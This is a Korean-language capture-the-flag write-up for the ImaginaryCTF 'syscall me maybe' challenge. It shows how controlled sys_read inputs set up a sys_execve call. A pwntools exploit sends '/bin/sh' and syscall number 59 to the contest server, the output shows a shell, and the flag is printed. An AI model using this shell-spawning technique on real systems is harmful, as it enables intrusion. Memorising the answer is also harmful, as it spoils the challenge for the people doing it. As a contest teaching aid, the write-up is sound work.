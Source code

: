 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-17-31-49.png)

첨부파일

[syscall_me_maybe_](https://github.com/2jinu/CTFnWargame/raw/main/CTF/ImaginaryCTF%20Round10/syscall%20me%20maybe/file/syscall_me_maybe_)


# **Write-Up**

해당 바이너리를 IDA를 통해서 확인하면 syscall로만 이루어져 있는 것을 확인할 수 있다.

![](images/2022-05-18-17-32-19.png)

이때 0x40105A에서 호출하는 syscall의 인자들은 0x401050~0x401059이고, 이는 앞에 나오는 sys_read에서 조작할 수 있다.

flag를 획득하기 위해 shell을 얻을 것이고, 이를 위하여 sys_execve를 활용하면 된다.

|%rax|System call|%rdi|%rsi|%rdx|
|:---:|:---:|:---:|:---:|:---:|
|59|sys_execve|const char *filename|const char *const argv[]|const char *const envp[]|

* [sys call table](https://github.com/2jinu/CTFnWargame/raw/main/CTF/ImaginaryCTF%20Round10/syscall%20me%20maybe/file/sys_call_table.xlsx)


1. rax는 59(0x3B)여야만 sys_execve가 되므로 마지막 sys_read에서는 0x3B를 전달하여야 한다.
2. rdi는 "/bin/sh"을 넣으면 되기 때문에 2번째 sys_read에서 "/bin/sh"을 전달한다.
3. 나머지 sys_read에서는 0x00값만 전달하면 된다.

python코드로 조합한 exploit코드는 다음과 같다.

```py
from pwn import *

p = remote('oreos.imaginary.ml', 13337)

rdx = p64(0x00)
rdi = '/bin/sh'.encode()+b'\x00'
rsi = p64(0x00)
rax = p64(0x3B)

p.send(rdx)
p.send(rdi)
p.send(rsi)
p.send(rax)

p.interactive()

[Output]
[+] Starting local process './syscall_me_maybe': pid 15702
[+] Opening connection to oreos.imaginary.ml on port 13337: Done
[*] Switching to interactive mode
$ cat flag.txt
ictf{Here's_my_flag_sysc4ll_m3_m4yb3}
```

# **FLAG**

**ictf{Here's_my_flag_sysc4ll_m3_m4yb3}**